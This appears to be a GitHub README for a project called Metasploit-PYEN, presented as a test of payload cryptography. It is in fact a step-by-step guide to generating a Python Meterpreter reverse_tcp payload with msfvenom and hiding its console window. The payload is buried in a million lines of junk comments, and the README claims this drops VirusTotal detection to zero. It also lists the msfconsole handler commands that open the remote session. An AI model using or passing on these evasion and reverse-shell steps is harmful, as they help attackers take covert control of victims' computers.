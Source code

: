 # Metasploit-PYEN
<strong><i>A new method of testing the metasploit payload cryptography and its use for cyber experts.</i></strong>
__________________________________________________________________________________________
### [+] Encryption test result :
### [>] From :
![Pic-1](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-1.png)
- Hash : ```0c0ba1c307f2fc0d8de806d406e0dba6d1ee47b9391ad282c4a651a120e3f918```
- -------------------------------------------------------------------------------------
### [>] To :
![Pic-2](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-2.png)
- Hash : ```f5698ec0516a03e9254d802b4ec232bc88ac0381965e64d2037fe1991db5aad3```
- -------------------------------------------------------------------------------------
## The changes :
- It was previously discovered that it contained JavaScript code, and now it has been changed to a text file.
- In VirusTotal statistics, the payload file got (7/60) and after coding, he obtained (0/59).
- The change is to add a million lines of text from this and in the middle of these lines the Python code for the metasploit connection information.
- The Text : ``` #;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]] ```
- like this picture :

![Pic-3](https://raw.githubusercontent.com/AbdulazizDXT/Metasploit-PYEN/main/Pic-3.png)
- -------------------------------------------------------------------------------------
## [+] How to create and connect to the payload :
- Use <strong><i>Msfvenom</strong></i> to create a Python payload.
- In <strong><i>root</strong></i> user write this code : ```msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP address> LPORT=<Port> -o > Payload.py```.
- Change Output file from ```Payload.py``` to ```Payload.pyw``` --> To Hide the console.
- Add a million lines in the file from this code ```#;lwqnbv4;o34vipn34[2qoiqqb54[noi2nb34o[gn3[2ioernvf[o34bgi32olnvcejkvn]]]]]``` Then put the python payload code in the middle of the million lines in the payload.
- Save the file, now test it in VirusTotal and test it on your device to verify the file.
### [+] Connection test :
- Run <strong><i>Msfconsole</strong></i> tool.
- Put these commands in the terminal of the metsploit tool, and as you know, it will receive your IP address and port.
- Commands :
```
use exploit/multi/handler

set payload python/meterpreter/reverse_tcp

set LHOST <Your IP address>

set LPORT <Your Port>
```
# To start Exploit type :

```exploit```

- Then the connection session opens without problems.

[+] Supported ME :

BTC : ```bc1qt5wkdh4w6xustsnfaanll4f464t75vncml29cx```












